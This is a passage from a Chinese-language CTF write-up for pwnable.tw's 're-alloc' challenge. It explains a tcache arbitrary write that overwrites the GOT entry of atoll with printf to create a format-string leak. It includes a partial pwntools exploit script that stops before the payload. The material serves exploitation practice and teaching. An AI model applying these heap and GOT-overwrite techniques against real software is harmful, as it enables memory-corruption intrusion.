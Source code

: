 接下来调用 allocate 分配 tcache[0] 上的 "chunk" ，就会返回我们想要的地址进行任意地址写了。

## 泄露

如何利用任意地址写来泄露内存呢？

我们可以把 GOT 表中的 atoll 函数项改为 printf 函数的地址。这样每次调用 atoll 函数就是在调用printf 函数。这么做是因为两个函数函数原型相似，printf 的返回值是输出了多少个字符。这样一来每次调用 rfree 函数输入 index 的时候我们就可以利用格式化字符串漏洞了。


## script

注释里面有heap指针，内存中 tcache 的情况。

```python
#!/usr/bin/env python3

from struct import pack
from pwn import *

HOST='chall.pwnable.tw'
PORT=10106
PROC="./re-alloc"

context.log_level = 'DEBUG'
context.arch = 'amd64'

io=None
elf=ELF(PROC)
lib = ELF("./dynamic64/libc_64.so")

if len(sys.argv) == 1 : 
    io=process(PROC)
else:
    log.info("remote start")
    # 设置代理
    context.proxy=(socks.SOCKS5,'localhost',7890)
    io=remote(HOST,PORT)

def PauseLocalDebug():
    info("process pid: "+str(io.pid))
    pause()

def alloc(idx,size,data):
    io.sendafter(":","1\n")
    io.sendafter(":",str(idx))
    io.sendafter(":",str(size))
    io.sendafter(":",data)

def realloc(idx,size,data=None):
    io.sendafter(":","2\n")
    io.sendafter(":",str(idx))
    io.sendafter(":",str(size))
    if data:
        io.sendafter(":",data)

def rfree(idx):
    io.sendafter(":","3\n")
    io.sendafter(":",str(idx))

TARGET_ADDR=elf.got['atoll']
TRAGET_VAL=elf.symbols['printf']

info("got['atoll'] TARGET_ADDR: "+str(hex(TARGET_ADDR)))
info("symbols['printf'] TARGET_VAL: "+str(hex(TRAGET_VAL)))
```